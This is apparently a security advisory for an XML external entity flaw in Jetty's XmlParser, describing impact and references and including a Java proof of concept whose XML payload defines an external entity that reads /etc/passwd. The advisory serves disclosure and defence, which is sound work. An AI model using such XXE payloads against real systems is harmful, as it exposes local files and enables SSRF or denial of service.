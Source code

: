 ```yaml
---
description: XRAY-523189, MEDIUM, Jetty XmlParser XXE 
title: Jetty XmlParser XXE
date_published: "2023-07-12"
last_updated: "2023-07-12"
xray_id: XRAY-523189
vul_id: 
cvss: 
severity: medium
discovered_by: Uriya Yavnieli
type: vulnerability

---
```


## Summary

Jetty XmlParser is vulnerable to XML external entity (XXE) vulnerability

## Component

org.eclipse.jetty:xml

## Affected versions

(,) Currently no fixed version

## Description

XmlParser is vulnerable to XML external entity (XXE) vulnerability.
XmlParser is being used when parsing Jetty’s xml configuration files. An attacker might exploit
this vulnerability in order to achieve SSRF or cause a denial of service.
One possible scenario is importing a (remote) malicious WAR into a Jetty’s server, while the
WAR includes a malicious web.xml.

This is not considered a vulnerability of the Jetty server itself, as any such usage of the Jetty XmlParser is equally vulnerable as a direct usage of the JVM supplied SAX parser.

However, any direct usage of the `XmlParser` class by an application may be vulnerable. The impact would greatly depend on how the application uses `XmlParser`, but it could be a denial of service due to large entity expansion, or possibly the revealing local files if the XML results are accessible remotely.

## PoC

```java
package com.example;

import java.io.ByteArrayInputStream;
import java.io.IOException;
import java.io.InputStream;

import org.eclipse.jetty.xml.XmlParser;
import org.eclipse.jetty.xml.XmlParser.Node;
import org.xml.sax.SAXException;

public class App 
{
    public static void main( String[] args )
    {
        XmlParser xmlParser = new XmlParser(true);
        String xmlContent = "<?xml version=\"1.0\" encoding=\"ISO-8859-1\"?><!DOCTYPE foo [ <!ELEMENT foo ANY > <!ENTITY xxe SYSTEM \"file:///etc/passwd/\" >]><foo>&xxe;</foo>";
        InputStream targetStream = new ByteArrayInputStream(xmlContent.getBytes());
        try {
            Node node = xmlParser.parse(targetStream);
            System.out.println(node.toString());
        } catch (IOException e) {
            e.printStackTrace();
        } catch (SAXException e) {
            System.out.println(e.getMessage());
            e.printStackTrace();
        }
    }
}

```





## References

[https://github.com/eclipse/jetty.project/security/advisories/GHSA-58qw-p7qm-5rvh](https://github.com/eclipse/jetty.project/security/advisories/GHSA-58qw-p7qm-5rvh)

[https://github.com/eclipse/jetty.project/pull/10067](https://github.com/eclipse/jetty.project/pull/10067)

